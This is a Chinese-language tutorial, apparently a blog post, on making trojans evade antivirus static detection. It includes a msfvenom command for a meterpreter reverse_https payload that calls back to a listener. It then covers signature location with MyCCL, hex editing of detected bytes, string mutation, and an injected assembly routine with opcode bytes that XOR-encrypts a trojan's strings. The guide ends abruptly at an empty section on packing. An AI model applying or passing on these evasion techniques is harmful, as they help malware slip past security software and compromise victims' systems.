









## 一、杀软

首先说一下杀软常用识别病毒的方式。

* 特征码识别
* 文件校验和法
* 进程行为监测法(沙盒模式)
* 云查杀
* 主动防御
* 机器学习识别

具体可自行百度。

## 二、过静态查杀

虚拟机里360有时有bug,怎么都不报毒，所以我们以火绒来实验。

怎么样才算过了静态免杀呢？

比如说，我把一个 exe 刚粘贴进电脑，就被杀软给杀了，那么我们通过各种方法使其粘贴到电脑并不会被杀软删除就算过了静态查杀。

#### 2.1 常规方法

* 改文件名
* 加资源
* 改区段
* 替换版本信息

#### 2.2 特征码免杀

免杀的基本思想就是破坏特征，这个特征有可能是特征码，有可能是行为特征，只要破坏了病毒和木马所固有的特征，并保证其原有功能没有改变，一次免杀就完成了。

所以我们需要定位特征码。

特征码定位分为文件特征码定位和内存特征码定位。

#### 2.3 文件特征码定位

常用工具 myccl 、muticcl .

1. MyCCL 定位特征码

   特征码定位又分为正向定位和反向定位。

   正向定位出来的特征码一般是改不了的，即改了之后会破坏文件结构使其执行不了，所以一般采用反向定位。

   这里我们采用 msf 生成的 exe 做测试。

   ```
   msfvenom -p windows/meterpreter/reverse_https LHOST=10.1.1.16 LPORT=4444 -f exe>shell.exe
   ```

   

   可以看到，直接被删除了。

   

   生成，则可以在自己指定路径下生成文件夹，

   

   然后用火绒对这个目录进行扫描删除病毒文件，（这里用火绒，360出bug）

   

   然后点在 `myccl `二次处理,又生成相同目录覆盖了原先目录，然后再查杀删除，再二次处理，知道查杀不出来位置。

   

   可以看到已经出现特征码，应为这里偏移量比较大，所以符合定位以下这里的特征码，

   然后点击生成，继续杀软查杀，二次处理循环知道杀软不在报毒和偏移量小于5，最好是2 和 4.

   

   现在出现了三个特征码，但是偏移量还比较大，所以继续右键特征码符合定位。

   有时候分块的时候正好把特征码分割开了，所以分块数量多设置几次。

   

   ok，第一个特征码差不多了

   记下来

   ```
   文件000025C8_00000005出现特征码!
   ```

   方法类似，都把区间缩小。

   

   现在我们拿winhex 或者 c32asm 以十六进制打开木马。

   

   找到对应位置，再偏移量内修改特征码。

   反向定位即点击 相应位置即可变为反向。

   

   其余过程类似。

   

   这是我反向定位出来的两个特征码。

   

   当我大幅度修改了特征码周围的数据时，杀软已经查杀不到了，但是此时木马的原有功能遭到了破坏甚至运行出现了错误，所以说这个试验很失败。也警示我们修改特征码要讲究方法。但是这也说明我们取得了一定程度上的成功。

   

2. muticcl 

   就不演示了，方法差不多，百度即可。

#### 2.4 修改特征码技巧总结

1. 直接修改特征码的十六进制

   修改方法:  把特征码所对应的十六进制改成数字差1或差不多的十六进制.
   适用范围:  一定要精确定位特征码所对应的十六进制,修改后一定要测试一下能否正常使用
   
2. 修改字符串大小写法

   修改方法：把特征码对应的内容是字符串的，只要把大小写互换一下就可以了。

   适用范围：特征码所对应的内容必须是字符串，可以修改大小写的字符串一般是注册表字符串】文件夹目录字符串。

3. 等价替换法

   修改方法：把特征码所对应的汇编指令中替换成功能类似的指令。

   适用范围：特征码中必须有可以替换的汇编指令。如：

   > JN,JNE 换成JMP
   >
   > je 换成jz
   >
   > add eax,10换成sub eax,-10
   >
   > add换成adc
   >
   > OR换成XOR或者XOR换成OR

4. 指令顺序调换法

   修改方法：把具有特征码的代码顺序互换一下。

   适用范围：具有一定的局限性，代码互换后要不能影响程序的正常执行，上下代码无关的可利用该方法。

5. 通用跳转法

   修改方法：把特征码以到零区域，然后 JMP 又跳回来执行。

   适用范围：通用，但如果特征码比较多，可能会让木马功能丢失。

6. 00填充法

   修改方法：把特征码填充为 00

   缺点：可能会毁坏程序关键功能。就像上文的那个案例一样。不推荐使用此种方法。

7. nop移位法

   修改方法：把特征码所在地方 NOP，在写入

   原理：移动一下位置，达到免杀。（特征码所在区域必须有多余的空间）

   缺点：免杀时间短，局限性大。

#### 2.5 字符串免杀处理

1. 字符串改大小写

   可以改大小写的字符串：注册表、文件夹路径、动态调用的API函数字符串、文件后缀名等，其中输出表dll名称可以随便改。

2. 变异字符串

   > [%02d:%02d:%02d:%02d:%02d:%02d] 改为 [%d:%d:%d:%d:%d:%d]（这个是格式字符串）
   >
   >  
   >
   > \svchost.exe –k 改为 \svchost.exe  –k （中间多加一个空格）
   >
   >  
   >
   > %SystemRoot%\System32 改为  %SystemRoot%\\System32 或者%SystemRoot%/System32
   >
   >  
   >
   > http://www.baidu.com/ 改为 http:\\www.baidu.com/  (斜杠反转)
   >
   > [ < - ]  改为  (< - )  (这个是pcshare键盘记录里退格键的表示符号，随便改，所以说得知道字符串起的作用)
   
3. 字符串移位

   对于exe文件可以直接用OD或者C32改，但对于dll文件就得用C32来改了

4. 异或算法加密字符串

   用这个方法可以加密exe和dll字符串，步骤

   * 先找到你要加密的字符串的物理地址，再转为内存地址

   * 记录下DLL现在的入口点，然后找一个零区域，同样记录下其内存地址，用来写入加密代码，再用LoadPe改入口点为零区域的地址。

   * 再用下面的代码来实现加密

     ```txt
     PUSHAD
     CALL 10011866       //call 下面的“pop eax”的地址
     POP EAX
     XOR AX,AX
     ADD EAX,xxxxxxxx   //内存地址去掉前面的1001基址得到****，这里得按你的情况来填
     XCHG EAX,ESI
     MOV EDI,ESI
     LODS BYTE PTR DS:[ESI]
     OR AL,AL
     JE 1001187C                   //je到下面的“POPAD”
     XOR AL,18
     STOS BYTE PTR ES:[EDI]
     JMP 10011872                  //jmp到上面的“LODS BYTE PTR DS:[ESI]”
     POPAD
     JMP xxxxxxxx                  //jmp到原入口，这里得按你的情况来填 
           
     
     
     # 二进制粘贴的代码：
     
     60 E8 00 00 00 00 58 66 33 C0 05 C7 29 00 00 96 8B FE AC 08 C0 74 05 34 18 AA EB F6 61 EB 89
     ```

   * 这样改后用OD打开文件，走到你加密的字符串那里，按F8单步，看看字符串被加密成了什么东西，二进制复制下来，然后把这些加密了的字符串覆盖掉原字符串就可以了（正常的字符串被异或后成了乱码，所以乱码再次被异或就能还原成了原来的正常的字符串）.

5. 字符串动态恢复

   exe文件字符串动态恢复。

   dll文件字符串动态恢复。

#### 2.6 加壳免杀


